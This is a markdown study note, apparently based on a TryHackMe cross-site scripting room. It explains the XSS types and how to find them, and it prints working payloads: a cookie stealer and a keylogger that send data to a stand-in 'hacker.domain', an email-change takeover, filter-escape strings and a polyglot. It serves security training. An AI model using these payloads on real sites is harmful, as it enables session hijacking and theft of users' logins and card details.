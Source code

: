 ```yaml
---
  title: "Cross Site Scripting"
---
```

# Intro

Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. In this room, you'll learn about the different XSS types, how to create XSS payloads, how to modify your payloads to evade filters, and then end with a practical lab where you can try out your new skills.

# Payloads
In this phase we try to inject simple javascript code into the web application, to test various malicious payloads.

## Proof of Injection
Typically we start with an alert script.

```
<script>alert('XSS');</script>
```

## Session stealing
Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
```
<script>fetch('https://hacker.domain/steal?cookie=' + btoa(document.cookie));</script>
```
**Payload breakdown**
```fetch()``` command makes an HTTP request.

```{hacker.domain}``` is an attacker controlled domain that can catch http requests

```?cookie=``` is the query string that will contain the victim's cookies.

```btoa()``` command base64 encodes the victim's cookies.

```document.cookie``` accesses the victim's cookies for the target website


## Key Logger
The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

```
<script>document.onkeypress = function(e) { fetch('https://hacker.domain/log?key=' + btoa(e.key) );}</script>
```
## Business Logic
This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called **user.changeEmail()**. Your payload could look like this:

```
<script>user.changeEmail('attacker@hacker.domain');</script>
```
# XSS Types

## Reflected XSS
Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.
### Discovery
Test every possible point of entry, including
- Parameters in the URL Query String
- URL File path
- HTTP Headers
#### Escape input tag
```
"><sript>alert('TEST');</script>
```
#### Escape textarea tag
```
</textarea><script>alert('TEST');</script>
```
#### Escape javascript commands
```
';alert('TEST');//
```
#### Escape word filtering
Use variations of the word for example, 'script' can be altered to
- ScRIpT
- sscriptcrpt
#### Escape img tag that has character filters
```
image/path/jpg" onload="alert('TEST');
```
#### Polyglots
```jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('TEST') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('TEST')//>\x3e```
## Stored XSS
In this type of vulnerability the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.
### Discovery
You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to, including
- Comments on a blog
- User profile information
- Web site listings
## DOM Based XSS
DOM stands for Document Object Model and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source. A diagram of the HTML DOM is displayed below:
![image](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/24a54ac532b5820bf0ffdddf00ab2247.png)
This type of vulnerability usually occurs when the website JS code acts on **input** or **user interaction**.
### Discovery
You will need to look at specific variables in the source code and investigate if you have control over them, for example **window.location.x** . Then you will need to check if the values of these variables are written to the web page's DOM or passed to unsafe javascript methods such as eval().
## Blind XSS
Blind XSS is similar to a stored XSS (which we covered in task 4) in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.
### Discovery
When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.
Tool worth checking, xsshunter.
# Resources
https://tryhackme.com/room/xssgi
